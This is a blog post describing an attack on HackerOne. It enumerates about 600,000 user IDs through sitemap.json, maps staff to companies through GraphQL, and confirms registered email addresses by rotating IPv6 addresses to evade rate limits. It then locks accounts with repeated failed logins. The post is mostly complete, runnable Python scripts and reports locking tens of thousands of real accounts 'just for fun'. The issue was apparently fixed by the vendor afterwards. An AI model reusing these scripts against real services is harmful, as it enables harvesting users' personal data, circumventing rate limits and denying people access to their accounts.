 ```yaml
---
layout: post
title:  Enum H1 Staff and Users email addresses and Lock accounts
categories: articles
---
```


<p align="right" class="date">{{ page.date | date_to_string }} - CongRong</p>

I found https://hackerone.com/sitemap.json a few months ago, but saw that only users starting withawere returned, but later I found out that it can be accessed via the parameterfirstEnumerate all users:

{% highlight http %}
https://hackerone.com/sitemap.json?first=[a-z]
{% endhighlight %}

After I got the id of nearly 600,000 users, thinking about how to use this data to maximize the harm?

So I thought of three ideas:

1. By requesting the `graphql` interface, query the team that each user belongs to. Reverse this result into: List of companies-> Staff. (Unrestricted)
2. Merge all common email addresses with ids, and enumerate whether the email addresses exists in the registration interface. (Limited, but can be bypassed with more IPv6)
3. Finally, you can use the blasted email addresses to log-in to the interface and request more than 100+ wrong passwords to lock your account. XD

## 0x01 Company -> Staff:

{% highlight python %}
#!/usr/bin/env python
#coding:utf-8

import os
import time
import json
import string
import requests

def main(name):
    print name
    datas = {"operationName":"getTeams","variables":{"username":"{}".format(name)},"query":"query getTeams($username: String!) {\n  user(username: $username) {\n    memberships(first: 10, where: {concealed: {_eq: false}}) {\n      total_count\n      edges {\n        node {\n          id\n          team {\n            id\n            name\n            handle\n            state\n            profile_picture(size: small)\n            __typename\n          }\n          __typename\n        }\n        __typename\n      }\n      __typename\n    }\n    __typename\n  }\n}\n"}

    headers={
        "User-Agent": "Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:56.0) Gecko/20100101 Firefox/56.0",
        "content-type": "application/json",
        "x-auth-token": "----",
        "Connection": "close"
    }
    try:
        r = requests.post("https://hackerone.com/graphql",headers=headers , data=json.dumps(datas), timeout=5)
        ret = json.loads(r.content)['data']['user']['memberships']
        if isinstance(ret['total_count'],int):
            f = open("done.txt",'a')
            f.write(name + '\n')
            f.close()

            if ret['total_count'] != 0:
                results = {name:[team['node']['team']['handle'] for team in ret['edges']]}
                print results
                with open("results/{}.txt".format(name),'w') as fp:
                    json.dump(results, fp, indent=4, ensure_ascii=False)
    except Exception,e:
        print e

if __name__ == '__main__':
    done = [i.strip() for i in open("done.txt")]
    for i in string.lowercase:
        with open("{}.txt".format(i)) as f:
            jf = json.load(f)
            for k in jf['users']:
                if k['username'] not in done:
                    ret = main(k['username'])
{% endhighlight %}

![](https://blog-1252048719.cos.ap-shanghai.myqcloud.com/aa2.png)

After reversing, the staff corresponding to the company is generated:

{% highlight python %}
#coding:utf-8

import os
import json
import string

def main():
	companys = {}
	staffs = os.listdir('results')
	for sf in filter(lambda x:x[-4:] == '.txt',staffs):
		staff = sf[:-4]
		with open('results/{}'.format(sf)) as f:
			sTmp = json.load(f)
			for c in sTmp.values()[0]:
				if c not in companys.keys():
					companys[c] = []
				companys[c].append(staff)

	profiles = {}

	for i in string.lowercase:
		with open("{}.txt".format(i)) as f:
			jf = json.load(f)
			for k in jf['profiles']:
				profiles[k['handle']] = k['name']

	f = open("staffList.txt",'a')
	f.write("| Company (347) | Staff (3488) |\n| --- | --- |\n")
	for k,v in companys.items():
		inc = profiles[k] if k in profiles.keys() else k
		users = []
		for u in v:
			users.append("[{}](https://hackerone.com/{})".format(u,u))
		f.write('| [{}](https://hackerone.com/{}) | '.format(inc,k) + '、'.join(users) + ' |\n')
	f.close()


if __name__ == '__main__':
	main()
{% endhighlight %}

So I have a list of `347` teams corresponding to `3488` staff XD

<a href="https://github.com/Symbo1/HackerOne-Staffs" target="_blank">https://github.com/Symbo1/HackerOne-Staffs</a>

![](https://blog-1252048719.cos.ap-shanghai.myqcloud.com/aa3.png)

## 0x02 Enumeration email addresses:

Under normal circumstances, the registered API will be frequency-limited, but can be bypassed by adding a large number of IPv6 enumerations:

![](https://blog-1252048719.cos.ap-shanghai.myqcloud.com/aa4.png)

Here only use gmail for testing, in fact, you can also add outlook, yahoo, mail.ru ...

{% highlight python %}
import json
import random
import string
import requests
import netifaces
from gevent import monkey
from gevent.pool import Pool
from requests_toolbelt.adapters import source

monkey.patch_all()
interfaces = 'ens3'

ips = []
for ipv6 in netifaces.ifaddresses(interfaces)[netifaces.AF_INET6]:
	if not ipv6['addr'].split(':')[0] == "fe80":
		ips.append(ipv6['addr'].split('%')[0])

def main(username):
	print username
	email = "{}@gmail.com".format(username)
	datas = {
		"user[email]": email
	}

	headers={
		"User-Agent":"Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:56.0) Gecko/20100101 Firefox/56.0",
		"Accept":"application/json, text/javascript, */*; q=0.01",
		"X-CSRF-Token":"...",
		"Content-Type":"application/x-www-form-urlencoded; charset=UTF-8",
		"X-Requested-With":"XMLHttpRequest",
		"Cookie": "...",
		"Connection":"keep-alive"
	}
	try:

		s = requests.Session()
		new_source = source.SourceAddressAdapter(random.choice(ips))
		s.mount('http://', new_source)
		s.mount('https://', new_source)

		r = s.post("https://hackerone.com/users",headers=headers , data=datas, timeout=5)
		ret = json.loads(r.content)["errors"]
		if ret:
			f = open("email-done.txt",'a')
			f.write(username + '\n')
			f.close()
			if "email" in ret.keys():
				print email
				f = open("emails.txt",'a')
				f.write(email + '\n')
				f.close()
	except Exception,e:
		print e

if __name__ == '__main__':
	tasks = []
	done = [i.strip() for i in open("email-done.txt")]
	for i in string.lowercase[:1]:
		with open("{}.txt".format(i)) as f:
			jf = json.load(f)
			for k in jf['users']:
				if k['username'] not in done:
					tasks.append(k['username'])
	pool = Pool(20)
	pool.map(main, tasks)
{% endhighlight %}

![](https://blog-1252048719.cos.ap-shanghai.myqcloud.com/aa5.png)

After enumerating `30k+` ID's I stopped the testing, and `2887` of them returned with success: (ps. emmmm悄悄的说，后来我获取到了几万)

![](https://blog-1252048719.cos.ap-shanghai.myqcloud.com/aa0.png)

As such, for total `600k` ID's, we may be able to get at least tens thousands of valid email addresses.

## 0x03 Lock accounts:

{% highlight python %}
import sys
import random
import string
import requests
import netifaces
from gevent import monkey
from gevent.pool import Pool
from requests_toolbelt.adapters import source

monkey.patch_all()
interfaces = 'ens3'

ips = []
for ipv6 in netifaces.ifaddresses(interfaces)[netifaces.AF_INET6]:
	if not ipv6['addr'].split(':')[0] == "fe80":
		ips.append(ipv6['addr'].split('%')[0])

def main(email):
	datas = {
		"email":email,
		"password":''.join(random.sample(string.lowercase,10)),
		"remember_me":"false"
	}

	headers={
		"User-Agent":"Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:56.0) Gecko/20100101 Firefox/56.0",
		"Accept":"application/json, text/javascript, */*; q=0.01",
		"X-CSRF-Token":"...",
		"Content-Type":"application/x-www-form-urlencoded; charset=UTF-8",
		"X-Requested-With":"XMLHttpRequest",
		"Cookie": "...",
		"Connection":"keep-alive"
	}
	try:

		s = requests.Session()
		new_source = source.SourceAddressAdapter(random.choice(ips))
		s.mount('http://', new_source)
		s.mount('https://', new_source)

		r = s.post("https://hackerone.com/sessions",headers=headers , data=datas, timeout=5)
		print "password: {} {}".format(datas['password'],r.content)
	except Exception,e:
		print e

if __name__ == '__main__':
	tasks = [sys.argv[1]]*110
	pool = Pool(20)
	pool.map(main, tasks)
{% endhighlight %}

![](https://blog-1252048719.cos.ap-shanghai.myqcloud.com/aa7.png)

After 100+ login attempts with incorrect passwords, the account was locked out successfully.

![](https://blog-1252048719.cos.ap-shanghai.myqcloud.com/aa6.png)

If I want to lock someone's account, I just need to enumerate the email addresses and then loop the script. Because the session will be invalidated after being locked, and the `unlock token` is unique each time it is locked.

## 0x04 End.

后来的故事就是封了万个号，h1官方进行了修正，并向被锁账号们群发了该事件的邮件：

![](https://blog-1252048719.cos.ap-shanghai.myqcloud.com/aa10.png)

Just For Fun :]